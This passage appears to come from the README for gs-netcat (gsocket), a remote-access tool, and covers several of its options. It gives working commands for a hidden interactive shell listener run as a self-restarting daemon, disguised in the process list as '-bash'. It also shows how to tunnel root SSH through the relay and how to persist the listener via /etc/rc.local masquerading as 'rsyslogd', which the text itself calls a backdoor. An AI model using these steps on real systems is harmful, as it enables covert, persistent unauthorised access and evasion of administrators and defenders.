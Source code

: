 Add -D on the host side to start gs-netcat as a daemon and in watchdog-mode: Gs-netcat will restart automatically if killed.

3. Use -k

Using -s is not secure. Add your *secret* to a file and use -k &lt;filen&gt; or use GSOCKET_ARGS="-s &lt;MySecret&gt;".

```
GSOCKET_ARGS="-s MySecret" gs-netcat -l
```

Use this command to generate a new secure password at random:
```
gs-netcat -g
```

4. Hide your arguments (argv)

Pass the arguments by environment variable (GSOCKET_ARGS) and use a bash-trick to hide gs-netcat binary in the process list:
```
$ export GSOCKET_ARGS="-s MySecret -li -q -D"
$ exec -a -bash ./gs-netcat &     # Hide as '-bash'.
$ ps alxww | grep gs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

5. SSH login to remote workstation
```
# On the remote workstation execute:
gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
```
```
# Access 192.168.6.7 via ssh on the remote network from your workstation:
ssh -o ProxyCommand='gs-netcat -s MySecret' root@doesnotmatter
```

6. Retain access after reboot

The easiest way to retain access to a remote system is by using [the automated deploy script](https://www.gsocket.io/deploy). Alternatively the following can be used to achieve the same:

Combine what you have learned so far and make your backdoor restart after reboot (and as a hidden service obfuscated as *rsyslogd*). Use any of the start-up scripts, such as */etc/rc.local*:
```
$ cat /etc/rc.local
#! /bin/sh -e

GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /usr/local/bin/gs-netcat"

exit 0
```
Not all environment variables are set during system bootup. Set some variables to make the backdoor more enjoyable: *TERM=xterm-256color* and *SHELL=/bin/bash* and *HOME=/root*. The startup script (*/etc/rc.local*) uses */bin/sh* which does not support our *exec -a* trick. Thus we use */bin/sh* to start */bin/bash* which in turn does the *exec -a* trick and starts *gs-netcat*. Puh. The gs-netcat process is hidden (as *rsyslogd*) from the process list. Read [how to enable rc.local](https://linuxmedium.com/how-to-enable-etc-rc-local-with-systemd-on-ubuntu-20-04/) if */etc/rc.local* does not exist.  
